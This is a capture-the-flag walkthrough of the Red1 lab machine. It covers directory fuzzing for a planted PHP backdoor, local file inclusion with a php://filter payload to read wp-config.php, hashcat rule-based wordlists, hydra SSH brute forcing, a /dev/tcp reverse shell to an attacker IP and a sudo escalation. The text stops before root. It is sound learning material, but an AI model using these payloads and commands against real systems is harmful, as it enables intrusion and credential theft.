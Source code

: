 # Red1
**IP: 10.0.4.7**
<br>
First of all I did an `nmap` scan and found that there are two open ports:<br>
> 80 _apache_ <br>
> 22 _ssh_

The site looks pretty simple. But I found some things in `robots.txt`<br>

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php

Sitemap: http://redrocks.win/wp-sitemap.xml
```

I went to the sitemap and found that there is user named:
administrator

Checked it in the admin-login page and looks like it works.
<br>
Going to the site we know that there is a backdoor. The hacker said so.
<br>
Let's look for backdoors. We have a good wordlists with backdoor names in seclists.<br>
`gobuster dir -u http://10.0.4.7/ -w CommonBackdoors-PHP.fuzz.txt`<br>
Looks like we found one:<br>
```
/NetworkFileManagerPHP.php (Status: 500) [Size: 0]
```
There is nothing if we go there. Therefore, we can try to put there different requests like:<br>
`/NetworkFileManagerPHP.php?search=qwe`<br>
We can use `wfuzz` to do it.<br>
```
wfuzz -c -u "http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=test" -w /usr/share/wfuzz/wordlist/general/big.txt --hh 00
```
We will find that the word `key` works.<br>
Try `http://redrocks.win/NetworkFileManagerPHP.php?key=/etc/passwd` and you will get a good result.

We know that this is a wordpress site. Also, we know that in wordpress sites have wp-config.php file where is a lot of interesting information. If we try to access it we won't see it since our browser automaticly translates php code. However, we can find a php base64 filter on PlayloadsAllTheThings. https://github.com/swisskyrepo/PayloadsAllTheThings 
Here is an example:<br>
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```
Modify it for ourselves:<br>
```
http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=wp-config.php
```
And it will give us a base64 string which we can decode and get the original wp-config.php code.<br>
Here is an interesting piece of code:<br>
```
...
/** MySQL database username */
define( 'DB_USER', 'john' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3v_m4lwh3r3_k1nG!!' );
...
```
We know that there is the open ssh port. If we try to use these credentials to ssh it does not work.<br>
Also, we know that there is the backdoor file. Let's download it and look what it looks like.<br>
`http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=NetworkFileManagerPHP.php`<br>
Got a piece of code with another base64 line which says:<br>
`That password alone won't help you! Hashcat says rules are rules`<br>
And this is kind of hint.<br>
We know that `hashcat` is a tool for password bruteforcing. We can see the work "rules" in the text which brings an assumption that we need to use a rule. _That is where we need get acquainted with password cracking rules._ Also, we can make an assumption that the rules is best64, since our hint was encoded in base64.<br>
We are going to take the password that we found in `wp-config.php`, put it in fule `pwd.txt` and generate a custom wordlist with `hashcat` and rule called `best64`.<br>
Our command will look like this:<br>
```
hashcat pwd.txt -r /usr/share/hashcat/rules/best64.rule --stdout > custom_wordlist.txt
```
Now, we have got our custom wordlist. Let's try to bruteforce into `ssh`.<br>
```hydra -l john -P custom_wordlist.txt ssh://10.0.4.7```
> [22][ssh] host: 10.0.4.7   login: john   password: R3v_m4lwh3r3_k1nG!!02<br>
Looks like it worked.<br>

When we try to use `cat` command it runs `vi`, but when we use `vi` it runs `cat`.<br>
We can see that there is thee users:<br>
> ippsec<br>
> john <br>
> oxdf <br>

After a couple of minutes using the `ssh shell` the connection was closed. The attacker made a script that kicks us out. The same password does not work, but we can brute force it again.<br>

### Upgrading our shell so we do not get kick out.
1. Start a nc listener. `nc -lvnp 4444`
2. Run a simple reverse-shell on the victim machine. `bash -i >& /dev/tcp/10.0.4.4/4444 0>&1`
3. `python3 -c 'import pty;pty.spawn("/bin/bash")'` in our new reverse-shell.
4. *ctrl-z*
5. `stty raw -echo; fg`
9. `export TERM=xterm`
<br>
So now we have our new shell. Let's look how we can escalate our privileges.<br>
The simplest way is to run `sudo -l` <br> 
```
User john may run the following commands on red:
    (ippsec) NOPASSWD: /usr/bin/time
```
This is what we got.<br>
Go to https://gtfobins.github.io/gtfobins and find what we can do with /usr/bin/time.<br>
`sudo /usr/bin/time /bin/sh`<br>
However, by default sudo will try to run a tool with the privileges of root user, but we have only privileges of ippsec, so we need specify our user, so our command will look like:<br>
`sudo -u ippsec /usr/bin/time /bin/sh`<br>
_It is better to escalate our privileges to *ippsec* before we upgrade our shell_<br>
Let's look can we escalate our privileges to root.<br>







